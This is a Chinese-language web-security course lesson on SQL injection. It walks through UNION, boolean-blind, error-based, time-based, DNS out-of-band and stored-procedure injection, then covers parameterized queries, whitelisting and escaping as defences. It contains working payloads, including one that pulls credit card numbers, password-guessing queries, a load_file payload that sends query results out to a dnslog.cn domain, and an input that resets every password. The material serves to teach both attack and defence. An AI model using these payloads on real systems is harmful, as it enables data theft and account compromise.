

- 00 导读 解读OWASP Top10 2021.md.html
- 00 开篇词 从黑客的视角找漏洞，从安全的角度优雅coding.md.html
- 01 失效的访问控制：攻击者如何获取其他用户信息？.md.html
- 02 路径穿越：你的Web应用系统成了攻击者的资源管理器？.md.html
- 03 敏感数据泄露：攻击者如何获取用户账户？.md.html
- 04 权限不合理：攻击者进来就是root权限？.md.html
- 05 CSRF：为什么用户的操作他自己不承认？.md.html
- 06 加密失败：使用了加密算法也会被破解吗？.md.html
- 07 弱编码：程序之间的沟通语言安全吗？.md.html
- 08 数字证书：攻击者可以伪造证书吗？.md.html
- 09 密码算法问题：数学知识如何提高代码可靠性？.md.html
- 10 弱随机数生成器：攻击者如何预测随机数？.md.html
- 11 忘记加“盐”：加密结果强度不够吗？.md.html
- 12 注入（上）：SQL注入起手式.md.html
- 13 注入（下）：SQL注入技战法及相关安全实践.md.html
- 14 自动化注入神器（一）：sqlmap的设计思路解析.md.html
- 15 自动化注入神器（二）：sqlmap的设计架构解析.md.html
- 16 自动化注入神器（三）：sqlmap的核心实现拆解.md.html
- 17 自动化注入神器（四）：sqlmap的核心功能解析.md.html
- 19 失效的输入检测（上）：攻击者有哪些绕过方案？.md.html
- 20 失效的输入检测（下）：攻击者有哪些绕过方案？.md.html
- 21 XSS（上）：前端攻防的主战场.md.html
- 22 XSS（中）：跨站脚本攻击的危害性.md.html
- 23 XSS（下）：检测与防御方案解析.md.html
- 24 资源注入：攻击方式为什么会升级？.md.html
- 25 业务逻辑漏洞：好的开始是成功的一半.md.html
- 26 包含敏感信息的报错：将安全开发标准应用到项目中.md.html
- 27 用户账户安全：账户安全体系设计方案与实践.md.html
- 28 安全配置错误：安全问题不只是代码安全.md.html
- 29 Session与Cookie：账户体系的安全设计原理.md.html
- 30 HTTP Header安全标志：协议级别的安全支持.md.html
- 31 易受攻击和过时的组件：DevSecOps与依赖项安全检查.md.html
- 32 软件和数据完整性故障：SolarWinds事件的幕后⿊⼿.md.html
- 33 SSRF：穿越边界防护的利刃.md.html
- 34 Crawler VS Fuzzing：DAST与机器学习.md.html
- 35 自动化攻防：低代码驱动的渗透工具积累.md.html
- 36 智能攻防：构建个性化攻防平台.md.html
- 大咖助场 数字证书，困境与未来.md.html
- 春节策划（一） 视频课内容精选：Web渗透测试工具教学.md.html
- 春节策划（三） 一套测试题，看看对课程内容的掌握情况.md.html
- 春节策划（二） 给你推荐4本Web安全图书.md.html
- 结束语 无畏前行.md.html
- 捐赠
13 注入（下）：SQL注入技战法及相关安全实践
你好，我是王昊天。
上节课我们学习了SQL注入的基本原理和基础动作，但想要完成SQL注入攻击，仅凭借基础知识是不够的。这节课我们就来深入分析不同场景下的SQL注入，来了解这些场景下都有哪些攻击方式。
事实上，即使同为SQL注入漏洞，由于攻击过程中可利用的条件和限制不同，所能够采取的攻击方式也是有差异的。比如在篮球比赛中，同样是上篮，由于防守队员的不同，甚至是防守人数的不同，都会有不同的动作。
注入技巧

联合注入（UNION注入）
当SELECT语句中存在可以使用的SQL注入漏洞时，就可以用联合注入方法进行SQL注入，将两个查询合并为一个结果或结果集。
联合注入是在SQL注入中加入一个新的查询，在完成原始数据查询后，再进行一次查询，并将新的结果加入到原始查询的结果中，攻击者可以通过这种方式来获得目标数据。比如如下查询语句：
SELECT Name, Phone, Address FROM Users WHERE Id=$id
# http://www.example.com/product.php?id=10
这是一个简单的查询语句，目标是从Users表中查询指定id值的用户的姓名、密码以及地址信息。
这里我们可以对id的值进行设置，如果将id的值设为：
1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
那么整条查询语句将会变为：
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
可以看到，我们已经构造出了一个联合查询语句，这里有两点需要我们特别关注。首先需要特殊说明的是，语句中ALL的作用。它防止我们添加的联合查询结果和原本的结果一致，导致其被过滤掉无法显示。添加ALL之后，即使联合查询的结果与原本的查询一致，也会返回两条一致的查询结果，从而方便我们判断攻击效果。
在联合查询中，另一个需要特殊说明的，是占位数据。可以看到，我们除了选择查询creditCardNumber，还添加了两个常数1。这是因为，原本查询的输出就包含三个字段，它们是“Name”、“Data”以及“Age”，其中“Data”以及“Age”都是常数类型的字段。在使用联合查询中，我们需要保证前后查询的字段数量、数据类型对应一致，上述查询过程中的1就是为了满足该需求。
可以发现，为了使用联合注入，我们需要提前知道原本查询的字段数量以及值的类型。
对于字段数量信息，我们可以利用ORDER BY来进行判断，例如：
SELECT Name, Phone, Address FROM Users WHERE Id=1 ORDER BY 10
其中ORDER BY 10意味着，将获取的数据按照第十个字段来进行排序。如果字段个数不足十个，就会报错；如果能正常获得输出，那么就能推断出字段个数不少于十个。通过递增修改ORDER BY后的值，我们就可以成功推断出字段的个数。
在联合查询中，如果联合查询前后输出的字段类型不一致，就会报错。我们可以利用这一点，通过null来判断字段的类型，例如：
SELECT Name, Phone, Address FROM Users WHERE Id=1 UNION ALL SELECT 1,null,null
在上述语句中，因为null可以匹配任意类型，所以Phone和Address的类型匹配不会产生问题，这就让我们就能专心判断第一个字段Name的类型 。如果能获得正常输出，那么就表明Name字段的类型是整数。如果报错，就将1改为其他类型的数据继续判断。在获取到Name的类型后，我们可以重复该过程，继续判断其它字段类型，直到获取到所有字段的类型信息为止。
在使用联合注入时，如果系统开发者用了LIMIT来限制查询结果，让应用只显示第一条查询结果，这就会导致，即使我们成功进行了注入攻击，依然只能获得原本查询的信息。这时我们可以对系统原本查询的参数赋予不存在的值，使我们添加的联合查询成为唯一能够获取到结果的查询。
SELECT Name, Phone, Address FROM Users WHERE Id=99999 UNION ALL SELECT creditCardNumber,1,1 FROM CreditCardTable
盲注（BOOLEAN注入）
当应用可以受到注入攻击，但是它反馈的响应内容，不包含相关的SQL查询结果或者数据库报错详细信息时，联合注入就会变得无效，这时我们可以使用盲注。
盲注也有很多种利用方式，如果应用可以根据是否查询到内容这一点，进行不同的响应，那我们就可以使用盲注。比如，网站设计者制作了一个错误界面，它不返回SQL语句的具体错误信息，而是仅仅返回错误代码，像是HTTP 500等类似信息。这时我们可以通过适当的推理，来绕过这个阻碍，最终成功获取到我们想要的数据。
在布尔注入的过程中会用到如下几个重要的处理函数：
SUBSTRING(text, start, length)
# 在“text”中从索引为“start”开始截取长度为“length”的子字符串，如果“start”的索引超出了“text”的总长度，那么该函数返回值为“null”。
ASCII(char)
# 获取“char”的 ASCII值，如果“char”为“null”，那么该函数返回值是0。
LENGTH(text)
# 获取“text”字符串的长度。
利用上述函数，我们就可以实现盲注，例如有一个叫Users的数据表，包含字段Id,username，我们可以使用盲注枚举出username的每一个字符值，通过拼接得出完整的数值，如下是判断username的第一个字符的ASCII值是否为97的语句:
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND ASCII(SUBSTRING(username,1,1))=97 AND '1'='1'
如果得到了正确的回应，就说明username的ASCII值为97，我们通过查询ASCII表就可以获得对应的字符值，之后继续判断username的后续字符。如果得到错误回应，那我们可以把ASCII的值进行更换，直到换为正确回应为止。
实现上面的判断需要我们能够区分正确回应和错误回应。我们可以用如下示例来获取正确回应和错误回应，通过对比将它们区分开来。
SELECT field1, field2, field3 FROM Users WHERE Id='1' OR '1' = '1'
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND '1' = '2'
我们在判断username值的第N位的过程中，如果该位的ASCII值等于零，那我们就需要判断是否username到了末尾，这时候，我们就可以运用如下代码进行判断username的长度是否为N：
SELECT field1, field2, field3 FROM Users WHERE Id='1' AND LENGTH(username)=N AND '1' = '1'
如果得到正确回应，就不需要继续向后判断了，因为这说明我们已经获取到了正确的username；如果是错误回应，说明我们很有可能遇到了null字符，那我们需要继续向后判断，直到该查询得到正确回应为止。
报错注入
顺着刚才的例子继续往下思考，如果应用系统不会因为查询是否返回数据而进行不同的反馈，布尔注入就会失效，这时候我们要怎么办呢？这种情况下，我们可以尝试报错注入。
为了提取出一些数据库内的信息，报错注入会故意执行一些导致数据库报错的行为，并将这些信息显示在报错页面上。报错注入的函数调用与错误触发方式，与具体的数据库管理系统以及版本相关，所以在注入之前我们需要确认数据库管理系统的相关信息。例如：
http://www.example.com/product.php?id_product=10' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
http://www.example.com/product.php?id_product=10' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
第一个payload会运行1/0，这会导致SQL产生报错。第二个payload不会运行1/0，导致SQL不会产生报错，我们可以分别尝试上述注入，通过应用是否会产生不同的响应，来做出判断。如果会产生响应，那么我们就可以使用报错注入来获取到一些我们想要的信息。
下面我们一起看一个例子。
SELECT * FROM products WHERE id_product=$id_product
# http://www.example.com/product.php?id_product=10' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
在这个例子中，我们假设Users表中有Username以及Password两个字段，现在已知存在一个用户名为Administrator，现在想要猜测他的密码。
这时我们可以利用上述payload，判断密码首字母的ASCII码是否大于m的ASCII码。如果大于，那么就会运行1/0，这会引起除零错误，否则就不会引起错误。类似于布尔注入的方法，我们可以通过不断地尝试来获取到Password的值。
时间盲注
我们顺着报错注入的例子，继续深入思考。如果应用系统具备很好的错误处理逻辑，这样在响应请求时不会产生异常，报错注入就会失效。这种情况，我们可以尝试时间盲注（又称为时延注入）。
这种攻击方案的底层逻辑是，攻击者通过控制注入的参数，能够获得服务器的响应延时控制权。这种注入方式与数据管理系统相关，具体实施需要确认数据管理系统的信息。如下为一个时间盲注示例：
SELECT * FROM products WHERE id_product=$id_product
# http://www.example.com/product.php?id_product=10 AND IF(version() like ‘5%’, sleep(10), ‘false’))--
在这个例子中，攻击者先检查MySQL的版本是否为5，如果判断为真，则让服务器延时十秒返回结果。
DNS带外注入
在盲注的情况下，假设应用程序是异步执行的，也就是说，应用程序需要在原始线程处理用户的请求，并同时在另一个线程使用跟踪cookie执行SQL查询，这样我们刚才提到的注入方法都会失效。这时如果我们想要成功进行注入，可以尝试使用DNS带外注入。
在了解DNS带外注入前，我们需要一点点前置知识，就是泛域名解析。那么什么是泛域名解析呢，其实很简单，就是*.的所有域名解析到同一IP，举个例子，talentsec.cn指向了一个IP，在使用了泛域名解析技术的情况下，test.talentsec.cn也会指向同一个IP地址。
DNS带外注入，是使用不同通道检索数据的技术（例如，建立 HTTP 连接将结果发送到 Web 服务器等）。这个方法使用DBMS的功能，执行带外连接，并将注入查询的结果作为请求的一部分传递给攻击者。和报错注入类似，每个数据库管理系统有自己独有的功能函数，我们需要确认数据库管理系统的信息。下面就是一个DNS带外注入的示例：
SELECT * FROM products WHERE id_product=$id_product
#http://www.example.com/product.php?id_product=10 and load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='security' limit 0,1),".afl3zg.dnslog.cn\\aa.txt")) --+
该payload使用了loadfile函数，该函数在这里可以通过UNC路径读取远程机器上的文件。它的参数是用concat函数拼接起来的UNC路径，由于\代表了转义的意思，所以实际拼接为\\{query_result}.af13zg.dnslog.cn\aa.txt，其中{query_result}为查询的结果，根据泛域名解析原理，该请求会被afl3zg.dnslog.cn记录下来。afl3zg.dnslog.cn是在DNSLog Platform上面生成的一个域名，我们可以借助它来观察到外带的结果。域名生成之后，点击刷新记录，就可以显示出它接收到的访问信息，其中就包括了我们的查询结果。
存储过程注入
在存储过程中，如果应用系统使用和用户交互式的SQL输入，程序就必须考虑注入风险。开发人员需要严格判断用户输入的合法性，以消除代码注入的风险。如果风险不清理，存储过程就可能会被用户输入的恶意代码污染。
下面这段代码，是存储过程注入示例：
Create
procedure get_report @columnamelist varchar(7900)
As
Declare @sqlstring varchar(8000)
Set @sqlstring = 'Select * ' + @columnamelist + ' from ReportTable'
exec(@sqlstring)
Go
如果用户输入：
from users; update users set password = ‘password’; select *
上述代码会把用户的输入赋值给@sqlstring，在之后的存储过程中执行，导致所有用户的密码更改为password。
如何防御
虽然SQL注入攻击方式多变，但是在防御角度确有一种“以不变应万变”的防御方案。
使用参数化查询（预编译）代替字符串连接查询，可以避免绝大多数的SQL注入类安全风险。这种方法的实现原理其实很简单，采用参数化查询的SQL语句会预先编译好，SQL引擎会预先进行语法分析、产生语法树以及生成执行计划，经过这些预处理，后面无论输入什么，都只会被当作字符串字面值参数，并不会影响SQL的语法结构，因此是一种优秀的SQL注入防御方案。
比如以下代码，采用了字符串拼接查询，因此很容易受到SQL注入攻击：
String query = "SELECT account_balance FROM user_data WHERE user_name = " + request.getParameter("customerName");
try {
Statement statement = connection.createStatement( ... );
ResultSet results = statement.executeQuery( query );
}
通过如下参数化查询的优化方案，该代码就可以有效避免用户输入干扰查询结构：
String custname = request.getParameter("customerName");
String query = "SELECT account_balance FROM user_data WHERE user_name = ?";
PreparedStatement pstmt = connection.prepareStatement( query );
pstmt.setString(1, custname);
ResultSet results = pstmt.executeQuery();
存储过程中也存在SQL注入的安全问题，我们可以在存储过程中，用标准存储过程编程构造。它的效果类似于参数化查询，它要求开发人员只构建带有自动参数化参数的SQL语句。存储过程的SQL代码是在数据库本身定义和存储的，然后在应用程序中调用。
// This should REALLY be validated
String custname = request.getParameter("customerName");
try {
CallableStatement cs = connection.prepareCall("{call sp_getAccountBalance(?)}");
cs.setString(1, custname);
ResultSet results = cs.executeQuery();
// … result set handling
} catch (SQLException se) {
// … logging and error handling
}
参数化查询虽然是一个非常优秀的SQL注入防御方案，但也并非是一个万全之策。当不信任的输入作为数值出现在查询语句中，这时比较适合用参数化查询来处理，比如WHERE语句以及INSERT或者UPDATE语句中出现的值。但是，当不信任的输入出现在查询语句其他位置，这种方法就不再适用了，例如表名、字段名或者ORDER BY语句中。
想要把不受信任的数据放入这些位置，需要采用不同的方法来避免注入攻击。例如，将允许的输入值列入白名单中，或者使用更安全的逻辑来实现我们的需求。使用白名单列表的输入验证，也是一个可行且优雅的防御方案。
如果在SQL查询中使用了绑定变量，比如表或列的名称，以及排序、顺序指示符（ASC或DESC），此时输入验证是最合适的防御方案。需要注意的是，通常表或列的名称，应该来自代码而不是用户，但是如果用户参数值被用于指明不同的表名和列名，那么参数值应该映射到合法或是预期的表名或列名，以确保用户的输入在经过验证之后才会出现在查询中。下面是一个数据表名验证的示例。
String tableName;
switch(PARAM):
case "Value1": tableName = "fooTable";
break;
case "Value2": tableName = "barTable";
break;
// ...
default : throw new InputValidationException("unexpected value provided for table name");
示例中的tableName可以直接加到SQL查询中，因为它现在是这个查询中表名的合法预期值之一。
当上述方法都不可行时，我们还可以将用户输入放入查询之前对其进行转义。但是此技术只应作为最后的手段使用，一般只建议在实现输入验证不符合成本效益时考虑使用。因为与其他防御相比，这种方法很脆弱，我们并不能保证它会在所有情况下成功阻止SQL 注入。
转义技术是这样工作的，每个DBMS都支持一种或多种，针对特定查询类型的字符转义方案，如果从正在使用的数据库的转义方案出发，转义所有用户提供的输入，那么DBMS就不会将该输入与开发人员编写的SQL代码混淆，从而避免SQL注入漏洞的发生。下面我们来看一个转义的例子。
#ESAPI数据库编解码器非常简单,对于Oracle的使用示例为：
#ESAPI.encoder().encodeForSQL( new OracleCodec(), queryparam );
#下面是一个Oracle的动态查询代码
String query = "SELECT user_id FROM user_data WHERE user_name = '"
+ req.getParameter("userID")
+ "' and user_password = '" + req.getParameter("pwd") +"'";
try {
Statement statement = connection.createStatement( … );
ResultSet results = statement.executeQuery( query );
}
#使用转义会使得这段代码可以抵御SQL注入
Codec ORACLE_CODEC = new OracleCodec();
String query = "SELECT user_id FROM user_data WHERE user_name = '"
+ ESAPI.encoder().encodeForSQL( ORACLE_CODEC, req.getParameter("userID"))
+ "' and user_password = '"
+ ESAPI.encoder().encodeForSQL( ORACLE_CODEC, req.getParameter("pwd")) +"'";
总结
这节课我们重点学习了SQL注入的利用方式和技巧。
首先是联合注入（UNION），这是一种非常强大并且易于使用的注入技巧，通过使用ORDER BY以及null技巧，强大的联合查询能够直接帮助攻击者获得大量数据；接下来是盲注（BOOLEAN注入），当应用系统存在SQL注入漏洞，但却没有直接数据回显时，盲注成为联合注入的接力棒，盲注又分为多种类型，虽然应用系统不能够直接回显数据查询结果，但如果查询结果能够影响响应页面，我们就可以通过盲注来猜测数据内容。
更进一步地，如果查询结果完全不能影响响应页面，这时又会出现三种新的可选攻击技巧。其中报错注入适用于没有标准化处理SQL查询错误的应用系统；而时间盲注则适用于上述所有限制条件全部存在的情况，因此时间盲注具备很强的适应性，虽然好处十分明显，缺陷也是十分明显，时间盲注需要大量的时间消耗才能完成完整攻击过程；DNS带外注入则是时间盲注的优化版，它不需要大量的时间消耗，通过SQL命令执行和网络信息传递，就可以将数据直接携带到外部监听端，达到快速获取受限环境数据的效果。
最后一部分是存储过程注入，上述SQL注入影响的都是应用系统层，而存储过程注入则直接影响数据库层，由于存储过程引入了字符串拼接，导致SQL注入问题被引入，其漏洞原理和利用方式都与常规的应用系统层SQL注入相似。
学习了SQL注入攻击技巧，再看如何进行防御。
最主流也是最好用的方案是参数化查询，又称预编译。通过预先的语法分析、产生语法树以及生成执行计划，未来所有参数输入都将被作为参数引入，无法修改SQL语句结构，因此能够极大程度地防御SQL注入攻击。但是这样优秀的解决方案，也有其不足之处，它只适用于将用户输入代入参数值的情况，如果希望将用户参数代入表名、字段名等情况，就需要使用其他方案。
对于上述需求场景，白名单列表是一个很好且很安全的方案，但是局限性也较大。如果白名单也无法满足你的个性化需求，那么就使用转义方案吧，但是值得注意的是转义方案与其他方案相比具有很大脆弱性，并不能保证在所有情况下都抵御SQL注入攻击。
回顾一下，这节课，我们一共学习了六种常见的SQL注入方式，并分别列举了典型的注入示例帮助大家加深理解。然后站在安全防御者视角，我们如何对不同类型注入点进行严格限制，分别介绍了将用户直接输入的查询改为参数化的查询的预编译方案、方便灵活使用的白名单方案以及最大满足个性化需求的转义方案。
通过学习本节课程，相信你已经掌握了SQL注入的多种攻击技巧以及防御技巧，希望能够帮助你在构建应用系统过程中更好地防御SQL注入攻击。
思考
课程最后，给你留一个作业，你可以尝试使用本节课程讲述的SQL攻击方式完成MiTuan的【专项 · SQL注入】训练吗？
欢迎在评论区留下你的思考，我们下节课再见。
© 2019 - 2023 Liangliang Lee. Powered by gin and hexo-theme-book.